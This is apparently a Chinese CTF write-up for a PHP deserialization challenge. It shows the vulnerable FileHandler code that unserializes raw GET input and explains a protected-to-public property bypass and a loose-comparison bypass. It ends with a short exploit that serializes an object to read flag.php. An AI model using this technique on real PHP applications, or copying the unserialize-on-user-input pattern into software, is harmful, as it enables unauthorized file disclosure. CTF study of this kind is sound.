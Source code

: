 ```

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

} 
```

### 第一层bypass：

利用php7.1的特性对由protected反序列化产生的特殊字符导致无法绕过ord函数来进行绕过：修改成员的属性为public

### 第二层bypass：

由于write()函数在逻辑上一点用没有，所以想要实现file_get_contents函数的调用就必须使用read函数，所以利用=<mark>与</mark>强弱类型bypass：$op=2;

最后的参数赋值为flag.php

exp：

```
<?php
class FileHandler {

    public $op = 2;
    public $filename = "flag.php";
    public $content;

    }
$a = new FileHandler();
echo urlencode(serialize($a));
?> 
```
